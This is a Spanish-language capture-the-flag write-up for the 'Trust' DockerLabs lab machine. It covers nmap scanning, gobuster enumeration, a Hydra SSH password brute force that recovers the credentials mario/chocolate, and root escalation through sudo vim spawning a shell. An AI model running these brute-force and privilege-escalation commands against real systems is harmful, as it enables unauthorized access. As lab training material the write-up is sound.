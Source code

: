 ```yaml
---
title: Trust - DockerLabs
published: true
categories: dockerlabs
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Ataque de fuerza bruta con Hydra](#Ataque-de-fuerza-bruta-con-Hydra)
4. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![Reconocimiento](https://github.com/romabri/WriteUps/assets/51706860/9374ba63-c786-4e08-ae44-c3672d159e86)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![web](https://github.com/romabri/WriteUps/assets/51706860/ce0df111-f0a7-4abc-8d00-955226c4aec8)

Vemos que nos encuentra un directorio llamado secret.php. Si accedemos a él, vemos lo siguiente:

![web2](https://github.com/romabri/WriteUps/assets/51706860/127749c8-2bba-4eaa-a83b-6a640b960bf4)

Aparece el nombre de Mario, por lo que probablemente sea un posible usaurio.


## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima


![att](https://github.com/romabri/WriteUps/assets/51706860/4ff3c53d-abe0-434e-b23f-1e162b9f3dce)

Como vemos, existe el usuario `mario` y la contraseña es `chocolate`.


## Intrusión y Escalada de privilegios

Ahora accedemos vía SSH 

`ssh mario@172.17.0.2`

Si hacemos el comando `sudo -l`, vemos que tenemos permisos para ejecutar como sudo el binario `VIM`

Para poder escalar privilegios con este binario, hacemos lo siguiente:

``sudo /usr/bin/vim -c ':!/bin/sh'`` 

Esto nos lanzará una terminal pero en modo `ROOT` y ya habremos terminado la máquina.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/34672299-f455-4af2-bd6e-edb5bb059d46)
